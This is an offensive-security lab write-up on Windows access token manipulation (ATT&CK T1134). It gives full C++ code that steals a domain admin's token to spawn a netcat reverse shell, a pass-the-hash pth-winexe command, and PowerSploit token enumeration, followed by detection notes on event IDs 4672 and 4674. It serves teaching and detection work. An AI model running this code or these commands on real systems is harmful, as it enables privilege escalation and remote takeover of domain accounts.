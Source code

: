 ```yaml
---
description: 'Defense Evasion, Privilege Escalation'
---
```


# T1134: Access Token Manipulation

## Execution

One of the techniques of token manipulations is creating a new process with a "stolen" token. This is when a token of an already existing access token present in one of the running processes on the local host, is retrieved, then duplicated and then used for creating a new process making the process run in the context of stolen token.

A high level process of the token stealing that will be carried out in this lab is as follows:

| Step | Win32 API |
| :--- | :--- |
| Open a process with access token you want to steal | `OpenProcess` |
| Get a handle to the access token of that process | `OpenProcesToken` |
| Make a duplicate of the access token present in that process | `DuplicateTokenEx` |
| Create a new process with the newly aquired access token | `CreateProcessWithTokenW` |

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060` This is a process ID that we want to impersonate/steal its token from, since it is running as a domain admin and makes for a good target:

![A victim cmd.exe process that is running under the context of DC admin offense\administrator](../.gitbook/assets/tokens-victim-3060.png)

Note the line 16, which specifies the executable that should be launched with an impersonted token, which in our case effectively is a simple netcat reverse shell calling back to the attacking system:

![](../.gitbook/assets/tokens-shell-c++.png)

This is the code if you want to compile and try it yourself:

{% code-tabs %}
{% code-tabs-item title="tokens.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);	

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);			
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching `Tokens.exe` from the powershell console spawns a reverse shell that the attacker catches. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token theft:

![](../.gitbook/assets/token-shell-impersonated.png)

The logon for OFFESNE\administrator in the above test was of logon type 2 \(interactive logon, meaning I launched a new process on the victim system using a `runas /user:administrator@offense cmd` command\). 

Another quick test that I wanted to do is test a theft of an access token that was present in the system due to a network logon \(i.e psexec, winexec, pth-winexe, etc\), so I spawned a cmd shell remotely from the attacking machine to the victim machine via:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
pth-winexe //10.0.0.2 -U offense/administrator%pass cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

which created a new process on the victim system with a PID of 4780:

![](../.gitbook/assets/tokens-winexe.png)

Enumerating all the access tokens on the victim system with `Invoke-TokenManipulation -ShowAll | ft -Wrap -Property domain,username,tokentype,logontype,processid` from PowerSploit gives the below. Note the available token \(highlighted\) - it is the cmd.exe from above screenshot and its logon type is as expected is 3 \(a network logon\):

![](../.gitbook/assets/tokens-all.png)

This token again can be stolen the same way. Let's change the PID in `Tokens.cpp` of the process we want to impersonate to 4780 \(it has the access token we want to steal\):

![](../.gitbook/assets/tokens-new-pid.png)

Running the compiled code invokes a new process with the newly stolen token:

![](../.gitbook/assets/tokens-new-shell.png)

note the cmd.exe has a PID 5188 - if we rerun the `Invoke-TokenManipulation`, we can see the new process is using the access token with logon type 3:

![](../.gitbook/assets/token-new-logon-3%20%281%29.png)

## Observations

Imagine you were investigating the host \(we stole tokens from\) because it exhibited some anomalous behaviour, in this particularly contrived example, since `Tokens.exe` was written to the disk on the victim system, you could have a quick look at its dissasembly and conclude it is attempting to manipulate access tokens - note that we can see the victim process PID and the CMDLINE arguments:

![](../.gitbook/assets/token-disasm.png)

As suggested by the above, you should think about API monitoring if you want to detect these manipulations on endpoints. Additionally, Windows event logs of IDs `4672` and `4674` may be helpful - below shows a network logon of a `pth-winexe //10.0.0.2 -U offense/administrator%pass cmd` and then later, a netcat reverse shell originating from the same logon session:

![](../.gitbook/assets/token-logs.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1134\",\"type\":\"link\",\"title\":\"Access Token Manipulation - ATT&CK for Enterprise\",\"icon\":{\"type\":\"icon\",\"url\":\"https://attack.mitre.org/favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://digital-forensics.sans.org/blog/2012/03/21/protecting-privileged-domain-accounts-access-tokens\",\"type\":\"link\",\"title\":\"SANS Digital Forensics and Incident Response Blog \| Protecting Privileged Domain Accounts:  Safeguarding Access Tokens \| SANS Institute\",\"description\":\"SANS Digital Forensics and Incident Response Blog blog pertaining to Protecting Privileged Domain Accounts:  Safeguarding Access Tokens\",\"icon\":{\"type\":\"icon\",\"url\":\"https://digital-forensics.sans.org/favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/\",\"type\":\"link\",\"title\":\"PowerShell and Token Impersonation\",\"description\":\"This post will discuss bringing incognito-like functionality to PowerShell in the form of a new PowerShell script \(Invoke-TokenManipulation\), with some important differences. I’ll split this post u…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://clymb3r.files.wordpress.com/2013/11/screen-shot-2013-11-03-at-10-07-42-pm.png?w=300\",\"width\":300,\"height\":187,\"aspectRatio\":0.6233333333333333}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/aa446671\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"GetTokenInformation function \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createprocesswithtokenw\",\"type\":\"link\",\"title\":\"CreateProcessWithTokenW function\",\"description\":\"Creates a new process and its primary thread. The new process runs in the security context of the specified token. It can optionally load the user profile for the specified user.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://docs.microsoft.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://docs.microsoft.com/\_themes/docs.theme/master/en-us/\_themes/images/microsoft-header.png\",\"width\":128,\"height\":128,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/aa446617\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"DuplicateTokenEx function \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}

[https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf](https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf)

